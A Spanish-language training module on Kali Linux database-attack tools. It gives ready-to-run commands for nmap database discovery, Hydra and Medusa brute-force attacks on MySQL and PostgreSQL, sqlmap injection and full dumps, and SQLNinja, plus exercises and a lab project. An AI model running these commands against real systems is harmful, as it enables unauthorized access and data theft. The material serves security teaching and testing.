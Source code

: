 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **MÓDULO DE APRENDIZAJE: KALI-TOOLS-DATABASE - HERRAMIENTAS PARA ATAQUES A BASES DE DATOS**

## **1. INTRODUCCIÓN AL METAPAQUETE `kali-tools-database`**

Kali Linux proporciona metapaquetes que agrupan herramientas específicas según el tipo de ataque que se desea realizar. En este caso, **`kali-tools-database`** incluye herramientas diseñadas para **realizar ataques, auditorías y análisis de seguridad en bases de datos**.

### **1.1 Objetivo del Metapaquete**

El metapaquete **`kali-tools-database`** permite:

- Identificar bases de datos accesibles en una red o aplicación web.
- Explorar y enumerar información en bases de datos.
- Exploitar vulnerabilidades en bases de datos, como **inyecciones SQL y credenciales débiles**.
- Realizar ataques de fuerza bruta contra servidores de bases de datos.
- Auditar configuraciones de seguridad en sistemas de gestión de bases de datos.

### **1.2 Instalación del Metapaquete**

Para instalar todas las herramientas incluidas en `kali-tools-database`, ejecuta:

```bash
sudo apt update
sudo apt install kali-tools-database -y
```

🔗 **Referencia oficial:** https://www.kali.org/tools/kali-tools-database/

------

## **2. HERRAMIENTAS INCLUIDAS EN `kali-tools-database` Y SU USO PRÁCTICO**

A continuación, exploramos las herramientas más importantes de este metapaquete y ejemplos de uso.

------

### **2.1 Descubrimiento y Enumeración de Bases de Datos**

Antes de atacar una base de datos, es importante encontrar su ubicación y recopilar información sobre su configuración.

#### **2.1.1 Nmap (Scripts NSE para bases de datos)**

*Nmap* puede detectar bases de datos en una red mediante scripts NSE específicos.

```bash
nmap -p 3306,5432,1521,1433 --script=mysql-info,pgsql-info,mssql-info 192.168.1.0/24
```

🔹 **Explicación:** Escanea los puertos de bases de datos más comunes e intenta extraer información.

------

### **2.2 Ataques de Fuerza Bruta a Credenciales de Bases de Datos**

Muchas bases de datos están mal configuradas con credenciales débiles, lo que permite ataques de fuerza bruta.

#### **2.2.1 Hydra - Ataque de Fuerza Bruta a MySQL**

```bash
hydra -L usuarios.txt -P passwords.txt 192.168.1.100 mysql -V
```

🔹 **Explicación:** Intenta encontrar combinaciones de usuario y contraseña en un servidor MySQL.

#### **2.2.2 Medusa - Ataque a PostgreSQL**

```bash
medusa -h 192.168.1.100 -U usuarios.txt -P passwords.txt -M postgres
```

🔹 **Explicación:** Prueba diferentes combinaciones de usuario/contraseña en PostgreSQL.

------

### **2.3 Explotación de Vulnerabilidades en Bases de Datos**

Las bases de datos pueden ser vulnerables a diferentes tipos de ataques, especialmente inyecciones SQL.

#### **2.3.1 SQLmap - Automatización de Ataques de Inyección SQL**

```bash
sqlmap -u "http://objetivo.com/product.php?id=1" --dbs
```

🔹 **Explicación:** Identifica y explota inyecciones SQL en aplicaciones web.

Ejemplo más avanzado:

```bash
sqlmap -u "http://objetivo.com/product.php?id=1" --dump-all
```

🔹 **Extrae toda la información de la base de datos si es vulnerable.**

------

### **2.4 Auditoría de Seguridad en Bases de Datos**

Estas herramientas permiten evaluar la seguridad de las configuraciones en sistemas de bases de datos.

#### **2.4.1 PostgreSQL Audit (pgAudit)**

- Instalación:

  ```bash
  sudo apt install pgaudit
  ```

- Activación:

  ```bash
  ALTER SYSTEM SET pgaudit.log = 'all';
  SELECT * FROM pg_stat_activity;
  ```

#### **2.4.2 SQLNinja - Explotación Avanzada de SQL Injection en MSSQL**

```bash
sqlninja -m test -f sqlninja.conf
```

🔹 **Explicación:** SQLNinja automatiza la explotación de SQL Injection en servidores Microsoft SQL Server.

------

## **3. PRÁCTICAS Y EJERCICIOS**

A continuación, ejercicios prácticos para reforzar el aprendizaje.

### **3.1 Ejercicio 1: Descubrimiento de Bases de Datos con Nmap**

1. Ejecutar un escaneo en la red para detectar bases de datos activas:

   ```bash
   nmap -p 3306,5432,1433,1521 --script=mysql-info,pgsql-info,mssql-info 192.168.1.0/24
   ```

2. Identificar servicios expuestos.

------

### **3.2 Ejercicio 2: Fuerza Bruta en MySQL con Hydra**

1. Ejecutar un ataque de fuerza bruta:

   ```bash
   hydra -L usuarios.txt -P passwords.txt 192.168.1.100 mysql -V
   ```

2. Comprobar si se encuentra una credencial válida.

------

### **3.3 Ejercicio 3: Ataque de Inyección SQL con SQLmap**

1. Identificar bases de datos vulnerables:

   ```bash
   sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
   ```

2. Extraer información de tablas sensibles:

   ```bash
   sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D acuart
   ```

------

## **4. PROYECTO FINAL: EVALUACIÓN DE SEGURIDAD EN UN SERVIDOR DE BASES DE DATOS**

En este proyecto, instalaremos un servidor vulnerable y realizaremos ataques controlados.

### **4.1 Instalación de un Servidor MySQL Vulnerable**

```bash
sudo apt install mysql-server -y
sudo systemctl start mysql
sudo mysql_secure_installation
```

1. **Configurar una contraseña débil** para probar fuerza bruta.
2. **Crear una base de datos con información simulada**.

### **4.2 Ataques y Auditoría**

1. Escanear el servidor con Nmap

    para identificar el servicio:

   ```bash
   nmap -p 3306 --script=mysql-info 127.0.0.1
   ```

2. **Ejecutar un ataque de fuerza bruta con Hydra** para encontrar credenciales débiles.

3. **Intentar una inyección SQL con SQLmap**.

------

## **5. CONCLUSIÓN Y SIGUIENTES PASOS**

Este módulo cubre el uso del metapaquete `kali-tools-database` para **pruebas de seguridad en bases de datos**. Desde el descubrimiento y enumeración hasta la explotación de vulnerabilidades, estas herramientas permiten realizar auditorías completas.

🔹 **Siguientes pasos:**

- Explorar herramientas avanzadas como **NoSQLMap** para ataques a bases de datos NoSQL.
- Aprender sobre **seguridad en bases de datos en la nube** con AWS RDS y Google Cloud SQL.
- Implementar **buenas prácticas de seguridad** para proteger bases de datos empresariales.





![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)